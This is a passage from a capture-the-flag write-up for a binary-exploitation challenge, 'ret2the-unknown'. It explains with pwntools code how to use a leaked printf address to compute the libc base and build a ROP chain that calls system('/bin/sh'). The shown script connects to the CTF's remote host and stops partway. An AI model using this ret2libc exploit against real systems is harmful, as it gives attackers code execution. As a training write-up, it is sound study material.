 The program will automatically repeat itself as planned in part 3. We can now calculate the libc base address using `printf_addr` from part 2. In fact, we can actually declare the base address in pwntools itself so that all future searches and lookups will use this base address:

```python
libc = ELF("./libc-2.28.so")
libc.address = printf_addr - libc.symbols["printf"]
```

What this code will do is it will load the libc file, take the `printf_addr` the program gave us, and subtract the offset of `prinf` from the libc file from it, therefore giving us the base address of the loaded libc. Part 4 complete!

Therefore, the `pop rdi; ret;` gadget is located at this base address *plus* `0x023a5f`. We can search through the libc for `"/bin/sh"` and `system` with pwntools now that we've declared its base address. We of course need to remember our padding as well to slide over to the return address. Parts 5-8, done:

```python
exploit  = b"B" * (32+8)
exploit += p64(libc.address + POP_RDI_RET)
exploit += p64(next(libc.search(b"/bin/sh")))
exploit += p64(libc.symbols["system"])
```

Our final exploit code will look something like the following:

```python
#!/usr/bin/env python3

from pwn import *

# Gadget offsets.
POP_RDI_RET = 0x00023a5f # pop rdi; ret;

# Remote switch.
REMOTE = True

def main():

    # Load the files.
    vuln = ELF("./ret2the-unknown")
    libc = ELF("./libc-2.28.so")

    # Connect to the target.
    if REMOTE:
        p = remote("mc.ax", 31568)
    else:
        p = process("./ret2the-unknown", env={"LD_PRELOAD": "./libc-2.28.so"})

    # Overwrite ret. addr. with main's addr.
    exploit  = b"A" * (32+8)                               # Padding to get to ret.
    exploit += p64(0x401186)                               # main() address overwrites ret.
    log.info("Overwriting return address with main.")
    p.recvuntil("safely?")
    p.sendline(exploit)

    # main should repeat and give us printf addr.
    p.recvuntil("there: ")
    printf_addr = p.recvuntil("luck!").decode("utf-8").split("\n")[0]

    # Calculate the offsets and addresses.
    printf_addr   = int(printf_addr, 16)                   # Load the printf address.
    libc.address  = printf_addr - libc.symbols["printf"]   # Calculate and set the libc address.

    # Create the exploit that overwrites ret. addr. with shellcode.
    exploit  = b"B" * (32+8)                               # Padding to get to ret.
```